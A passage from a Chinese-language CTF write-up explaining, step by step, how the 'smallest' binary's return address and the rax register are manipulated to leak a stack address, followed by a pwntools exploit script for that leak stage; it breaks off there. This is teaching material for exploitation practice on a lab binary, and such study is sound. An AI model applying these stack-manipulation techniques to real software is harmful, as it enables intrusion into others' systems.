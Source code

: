     接着执行 ret，此时返回的地址是 esp 存放的 0x4000B3，表示指令 mov edx, 400h，正好跳过了 xor rax, rax，这样 rax 的值能够继续保存为 1，此时 esp 指向的是第三个 main\_addr，如图<4>
    
    程序跳转到 0x4000B3 继续执行，rax 为 1 表示调用函数 write(1,esp,0x400h)，此时会输出栈内存地址，但是由于此时栈中的第一个内容还是第三个 main\_addr，故需要读取 8 到 16 的内容
    
    接着执行 ret，此时程序返回的是 main\_addr，而 esp 指向的地址就是我们得到的栈地址
    
    [![](assets/1701678439-78ce3f83445b9e960eb2120d32b94b33.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129204919-b6799d94-8eb5-1.jpg)
    
    对应的 exp：
    
    ```plain
    # -*- coding: utf-8 -*-
    from pwn import *
    
    context(os='linux',arch='amd64',log_level='debug')
    p = process('./smallest')
    
    main_addr = 0x04000B0
    syscall_addr = 0x04000BE
    
    #三次 main_addr 是为了构造后面三次跳转
    payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
    p.send(payload)
    #程序成功将三个地址写入栈中，此时执行 ret 后将程序返回至 main_addr，而 esp 指向第二个 main_addr
    #进行新一轮的 read，发送 3 的目的是将当前 esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的 0x04000B0 会变成 0x04000B3，这个地址正好对应的是 mov  edx, 400h，跳过了 xor rax,rax(将 rax 的值变成 0)，read 函数的特性，写入了一个字符后，将写入的长度存放在 rax，也就是为 1，接着执行到 ret，将程序返回至 0x04000B3，此时 esp 指向的是刚开始的第三个 main_addr
    #由于 rax 里面的值为 1，正好是 write 函数的系统调用号，也就意味着接下来执行的是 write 函数，而需要输出的首地址是 esp，此时第一个存放的是 main_addr，接下来的 8 到 16 就是我们需要得到的地址
    #输出地址后，程序执行 ret，此时程序又返回到 main_addr，程序重新开始
    p.send('\xb3')
    #得到栈地址
    stack_addr = u64(p.recv()[8:16])
    print("stack addr:"+hex(stack_addr))
    ```
    